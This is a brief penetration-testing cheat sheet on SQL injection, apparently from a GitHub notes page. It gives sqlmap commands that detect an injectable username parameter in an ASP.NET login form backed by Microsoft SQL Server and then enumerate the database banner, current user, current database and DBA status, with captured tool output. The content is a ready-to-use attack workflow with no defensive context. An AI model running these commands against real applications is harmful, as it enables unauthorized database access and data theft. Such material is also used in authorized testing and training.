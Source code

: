 # SQL Injection

Test POST request :&#x20;

```
sqlmap -r req.txt

it looks like the back-end DBMS is 'Microsoft SQL Server'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
...
POST parameter 'ctl00$ContentPlaceHolder1$UsernameTextBox' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
```

Database enumeration on specific injectable parameter and specifying technique to use :

```
sqlmap -r req.txt --technique=S --banner --current-user --current-db --is-dba -p 'ctl00$ContentPlaceHolder1$UsernameTextBox'

web server operating system: Windows 2016 or 11 or 2022 or 10 or 2019
web application technology: ASP.NET, ASP.NET 4.0.30319, Microsoft IIS 10.0
back-end DBMS operating system: Windows
back-end DBMS: Microsoft SQL Server 2019
banner:
---
Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64) 
	Sep
---

current user is DBA: False

```
